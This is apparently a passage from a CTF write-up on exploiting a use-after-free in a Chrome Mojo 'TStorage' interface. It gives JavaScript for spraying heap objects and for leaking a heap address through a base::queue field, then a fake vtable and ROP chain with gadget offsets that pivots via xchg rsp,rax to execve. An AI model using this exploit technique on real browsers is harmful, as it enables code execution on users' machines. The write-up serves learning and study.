 ```javascript
```

While `tInsPtrSprays` must be created beforehand(e.i. before UAF is triggered), otherwise the `InnerDbImpl` created in `init` will occupy the UAF object instead.

```javascript
async function createSprayObjects(tInsPtrSprays)
{
	const tStrPtrSpray = new blink.mojom.TStoragePtr();
	Mojo.bindInterface(blink.mojom.TStorage.name,
		mojo.makeRequest(tStrPtrSpray).handle, 'context', true);
	await tStrPtrSpray.init();
	const tInsPtr = (await tStrPtrSpray.createInstance()).instance;
	tInsPtrSprays.push(tInsPtr);
	refs.push(tStrPtrSpray);
}
```

### Leak Heap Address

After we are able to control the contents of the UAF object, we must leak the heap address to construct and use a fake `vtable` on heap. My idea is to fill the UAF object such that `base::queue` field is filled with all zeros, which means an empty queue. After then, we can push something into the queue to let it become a heap address pointing to contents that we can control (e.i. contents pushed into queue). Then, we can pop `base::queue` field of the `tInsPtr` whose `base::queue` field is occupying the UAF object, thus to leak that heap address stored in `base::queue` field of UAF object. 

The code is shown as follows:

```javascript
// tInsPtr here is the UAF object
const idx = (await tInsPtr.getInt()).value;
print(idx); // get which one is occupying the UAF object
for (let i = 0; i < 201; i++)
	await tInsPtrSprays[idx].pop();
const heapAddr = (await tInsPtrSprays[idx].pop()).value;
// pop element to leak the address of heap
// now 0x678 is freed again due to poping elements
print(hex(heapAddr));
```

### Code Execution

Finally we are here! According to [exploit](https://gist.github.com/ujin5/5b9a2ce2ffaf8f4222fe7381f792cb38) of mojo in Plaid CTF, we found that `xchg rsp,rax` is a gadget existed in Chrome binary, thus we found this manually using gdb search as running `ropper` on Chrome is too slow. Since when calling the virtual table function, `rax` points to `vtable`, which is the buffer we can control, we can put our ROP chain at `rax` along with the fake virtual function address! My approach is to use the buffer of `base::queue` whose address is the one we leaked as the fake virtual table. Thus ROP chain and address of `xchg rsp,rax` as fake virtual function are pushed into the `base::queue` when leaking the heap address as suggested above.

```javascript
// rop and fake virtual table
// 0xd1ba7: lea rdi, [rsp + 0xb0]; mov rsi, rbp; call rbx
// 0x52bc8: pop rbp; pop rbx; ret;
// 0x2cb49: pop rbx; ret;
// 0x1b96: pop rdx; ret;
// 0x439c8: pop rax; ret;

// tInsPtr is the UAF object whose base::queue field is empty intially
await tInsPtr.push(libcAddr + 0x52bc8); // begin of ROP
await tInsPtr.push(0); // let queue to have some element
await tInsPtr.push(textAddr + 0x3fa5114); // xchg rsp,rax, as virtual table
await tInsPtr.push(libcAddr + 0x2cb49);
await tInsPtr.push(libcAddr + 0xe4e30); // execve

```